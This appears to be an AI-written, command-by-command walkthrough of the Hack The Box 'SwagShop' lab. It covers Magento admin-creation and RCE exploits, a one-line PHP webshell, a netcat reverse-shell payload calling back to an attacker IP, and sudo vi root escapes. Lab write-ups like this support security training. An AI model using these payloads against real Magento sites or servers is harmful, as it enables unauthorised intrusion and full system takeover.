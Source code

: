 Here’s a **clean, Markdown-formatted command walkthrough** for **HTB: SwagShop**, organized by phase and including explanatory context:

---

# 🧢 HTB: SwagShop – Command Walkthrough

## 📋 Box Info
- **IP**: `10.10.10.140`
- **OS**: Ubuntu 16.04 (Xenial)
- **Difficulty**: [Easy](Easy.md)
- **Initial Access**: Magento authentication bypass + RCE
- **Privilege Escalation**: `sudo vi` file escape

---

## 🔍 Recon

### 🔎 Full Port Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.140
```

### 🔎 Script & Version Scan
```bash
nmap -sC -sV -p 80,22 -oA scans/nmap-scripts 10.10.10.140
```

---

## 📂 Web Enumeration

### 🔍 Directory Brute Force
```bash
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 50 -o scans/gobuster-root -u http://10.10.10.140/
```

---

## 🐚 Shell as www-data

### 👤 Add Admin via Shoplift Exploit
```bash
python poc.py 10.10.10.140
# Result: ypwq:123 added as admin
```

### 🔓 Login to Admin Panel
Navigate to:
```
http://10.10.10.140/index.php/admin
```

### 🧪 RCE #1 – PHP Object Injection

#### 📦 Retrieve Magento Install Date
```bash
curl -s http://10.10.10.140/app/etc/local.xml | grep date
```

#### 💣 Download Authenticated RCE Exploit
```bash
searchsploit -m exploits/php/webapps/37811.py
mv 37811.py magento_rce.py
```

#### ⚙️ Configure Exploit
Edit `magento_rce.py`:
```python
username = 'ypwq'
password = '123'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'
```

#### ▶️ Execute Command
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
```

### 🧪 RCE #2 – Malicious Magento Package *(legacy method, may be patched)*

#### 📦 Create Package
```bash
mkdir -p errors
echo '<?php system($_REQUEST["cmd"]); ?>' > errors/cmd.php
md5sum errors/cmd.php  # Save the hash

# Create package.xml with correct structure and hash
# Then:
tar -czvf package.tgz errors/ package.xml
```

#### ⬆️ Upload Package
Navigate to:
```
http://10.10.10.140/downloader/
```

#### 🕸️ Execute Command via Webshell
```bash
curl http://10.10.10.140/errors/cmd.php?cmd=id
```

---

## ⚡ Get Reverse Shell

### 🧬 Reverse Shell Payload
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' \
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"
```

### 📡 Catch Shell
```bash
nc -lnvp 9001
```

---

## 🔼 Privilege Escalation (www-data → root)

### 📟 Upgrade Shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

### 🔍 Check Sudo Permissions
```bash
sudo -l
```

> Output:
```
(root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

---

## 👑 Root Access

### 📖 Read Flag via `vi`
```bash
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

### 🐚 Get Root Shell via vi
```bash
sudo /usr/bin/vi /var/www/html/a

# Inside vi:
:set shell=/bin/bash
:shell
```

Or run directly from command line:
```bash
sudo vi /var/www/html/a -c ':!/bin/sh'
```

---

Let me know if you'd like this saved as a reusable template or combined with your other write-ups!